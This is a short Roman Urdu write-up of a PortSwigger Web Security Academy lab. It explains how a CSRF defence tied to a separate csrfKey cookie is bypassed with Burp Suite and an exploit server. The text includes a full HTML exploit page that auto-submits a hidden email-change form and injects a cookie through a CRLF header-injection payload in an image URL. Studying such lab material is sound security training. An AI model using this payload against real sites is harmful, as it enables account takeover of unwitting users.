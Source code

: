 burpsuite on tha phir main login page pr gya wahan wiener peter sy login kiya phir update email main apny aap sy aik 
email change kr di jaisy test@tesss.com ius ky baad burpsuite main gya wahan sy ius POST change/email wali request ky
csrfkey + csrf token ko copy kiya phir exploit server main gya wahan body section main 
<html>
  <body>
    <form action="https://0a34004b04b3113980fccbd8007800ab.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="sdasevil@sadevil.com">
      <input type="hidden" name="csrf" value="pB4M7BHMIn2hQROcR2z0OfnnwldxwoQz">
    </form>
    <img src="https://0a34004b04b3113980fccbd8007800ab.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=6LbtJoTyKY8c3VPKhrKwB6sB3Mmj2VMT%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
yeh paste kr diya iss main mane apna lab ka url 2 jagah pr daala aik new email daali phir csrf value main copy kiya hua
wiener ka csrf token daala phir img waly tag main csrf key inject ki jo ky wiener ki copy ki hue thi phir deliver to victim kiya
or lab solved
